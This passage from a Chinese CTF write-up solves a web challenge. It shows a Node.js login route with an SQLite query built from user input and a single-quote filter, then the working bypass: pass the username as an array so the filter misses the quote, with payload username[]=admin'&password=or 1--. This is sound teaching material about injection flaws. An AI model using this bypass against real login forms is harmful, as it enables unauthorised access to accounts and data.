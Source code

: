 ### <a class="reference-link" name="Solution"></a>Solution

题目有一个比较明显的注入

```
const query = `SELECT id FROM users WHERE
    username = '$`{`req.body.username`}`' AND
    password = '$`{`req.body.password`}`'
  `;
```

并且获得 flag 的条件是需要该查询语句得到结果即可

```
if (id) return res.sendFile('flag.html', `{` root: __dirname `}`);
```

但是数据库只存在一条记录，并且对于 admin 用户来说，密码是随机的，我们只能考虑一下怎么进行注入，使用万能密码即可，但是在前面用了一些措施过滤了单引号

```
if ([req.body.username, req.body.password].some(v =&gt; v.includes('\''))) `{`
    return res.redirect('/');
  `}`
```

很明显我们需要用一些方式绕过这个过滤注入单引号，可以尝试一下反斜杠，例如`username=1\&amp;password=or 1;--`这样我们就可以构造成

```
SELECT id FROM users WHERE username = '1\' AND password = 'or 1;--'
```

但是我们尝试之后并不可以，查资料发现，sqlite 对于单引号的转义方式是通过两个单引号的形式`''`，例如：

```
INSERT INTO table_name (field1, field2) VALUES (123, 'Hello there''s');
```

所以我们需要尝试一些其他操作。后面我们可以发现使用数组进行绕过单引号的限制，例如：

```
var a = ["admin'"];
var b = "or 1=1;--"
[a, b].some((v) =&gt; v.includes("'")) // false
```

所以我们可以这么构造用户名以及密码即可: `username[]=admin'&amp;password=or 1--`

这样得到的 sql 语句即是

```
SELECT id FROM users WHERE username = 'admin'' AND password = 'or 1--'
```

这样就可以查询得到结果了，也就可以拿到 flag 了

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t017a77a8c259d179ea.png)



## Web Utils
